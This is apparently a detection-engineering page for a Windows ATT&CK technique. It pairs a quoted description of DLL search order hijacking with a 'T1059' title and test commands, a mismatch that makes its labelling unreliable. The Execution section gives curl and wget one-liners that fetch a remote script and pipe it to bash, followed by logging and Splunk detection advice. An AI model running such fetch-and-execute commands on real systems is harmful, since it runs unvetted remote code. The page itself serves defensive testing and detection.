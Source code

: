 # T1059 - DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1038)
<blockquote>
Windows systems use a common method to look for required DLLs to load into a program. [1](https://docs.microsoft.com/en-us/windows/desktop/Dlls/dynamic-link-library-search-order) Adversaries may take advantage of the Windows DLL search order and programs that ambiguously specify DLLs to gain privilege escalation and persistence.

Adversaries may perform DLL preloading, also called binary planting attacks, [2](https://www.owasp.org/index.php/Binary_planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program. Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL. [3](http://blogs.technet.com/b/msrc/archive/2010/08/21/microsoft-security-advisory-2269637-released.aspx) Adversaries may use this behavior to cause the program to load a malicious DLL.

Adversaries may also directly modify the way a program loads DLLs by replacing an existing DLL or modifying a .manifest or .local redirection file, directory, or junction to cause the program to load a different DLL to maintain persistence or privilege escalation. [4](https://docs.microsoft.com/en-us/windows/desktop/Dlls/dynamic-link-library-redirection)[5](https://docs.microsoft.com/en-us/windows/desktop/SbsCs/manifests)[6](https://www.fireeye.com/blog/threat-research/2010/08/dll-search-order-hijacking-revisited.html)

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program.

Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace


</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
 

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
